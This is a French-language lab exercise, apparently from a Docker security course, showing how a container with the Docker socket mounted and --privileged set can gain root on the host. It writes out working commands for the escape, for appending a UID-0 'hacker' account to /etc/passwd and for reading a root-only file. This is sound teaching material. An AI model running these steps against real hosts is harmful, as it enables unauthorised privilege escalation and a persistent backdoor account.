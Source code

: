 # **🔹 Exercise 10 Conteneur dangereux : Accès root de l'hôte depuis un conteneur 🚨⚠️**
En **production**, mal configurer un conteneur **peut exposer l’hôte** à des attaques et permettre une **escalade de privilèges**.  

📌 **Problème** : Certains paramètres de lancement permettent à un conteneur de **prendre le contrôle de l’hôte** !  

---

## **1️⃣ Pourquoi c’est dangereux ?**
- **Docker tourne en root** → Un conteneur peut potentiellement exécuter des commandes avec les **droits root** de l’hôte.
- **Accès au socket Docker (`/var/run/docker.sock`)** → Permet au conteneur de **gérer Docker lui-même**, créer d'autres conteneurs, supprimer des fichiers, etc.
- **Montage du système de fichiers de l’hôte** → Le conteneur peut **modifier des fichiers critiques** (`/etc/passwd`, `/root/.ssh`, `/etc/shadow`).
- **Ajout de privilèges avec `--privileged`** → Donne **un accès complet au noyau** du système.

---



## **2️⃣ Conteneur dangereux qui peut obtenir un accès root à l'hôte**
🚨 **Ne testez cela que sur une machine de test** 🚨
### **Prépation**

Créer un fichier secret
```sh
 echo "Supersecret" > secret.txt
 sudo chown root secret.txt 
 sudo chmod 400 secret.txt
 sudo mv secret.txt /etc/secret.txt
 cat /etc/secret.txt 
```


### **📌 Exemple : Accès root à l’hôte via `/var/run/docker.sock`**
1️⃣ **Lancer un conteneur en **mode privilégié** et en exposant le socket Docker** :
```sh
docker run -it --rm \
  --privileged \
  -v /var/run/docker.sock:/var/run/docker.sock \
  alpine sh
```
2️⃣ **Dans le conteneur, créer un nouveau conteneur root privilégié** :
```sh
apk add docker-cli
docker run -it --rm --privileged --net=host --pid=host -v /:/mnt alpine chroot /mnt sh
```
📌 **Résultat attendu** :  
- Vous avez un accès **root complet à l’hôte** depuis le conteneur.
- Vous pouvez **modifier des fichiers système**.

3️⃣ **Test : Ajouter un nouvel utilisateur root sur l’hôte** :
```sh
echo "hacker:x:0:0::/root:/bin/bash" >> /etc/passwd
```
4️⃣ **Ouvrir une session sur l’hôte avec cet utilisateur** :
```sh
su hacker
cat /etc/secrets.txt
```
📌 **Le conteneur a complètement pris le contrôle de l’hôte !** 😱

---

## **3️⃣ Expliquer comment cela fonctionne**
### **🔍 Exploitation de `/var/run/docker.sock`**
Docker expose une **API UNIX (`/var/run/docker.sock`)** qui permet de gérer les conteneurs.  
📌 **Problème** :  
Si un conteneur a accès à ce socket, il peut :
- Lancer **d'autres conteneurs avec des privilèges élevés**.
- **Supprimer des conteneurs** sur l’hôte.
- **Monter tout le système de fichiers de l’hôte**.

### **🔍 Exploitation du mode `--privileged`**
L’option `--privileged` donne au conteneur **tous les privilèges root** :
- **Accès aux périphériques de l’hôte (`/dev`, `/sys`)**.
- **Modification des paramètres du noyau**.
- **Ajout d’interfaces réseau**.
- **Chargement de modules noyau**.

📌 **Conséquence** :
👉 Un attaquant peut **modifier l’OS de l’hôte directement depuis un conteneur** !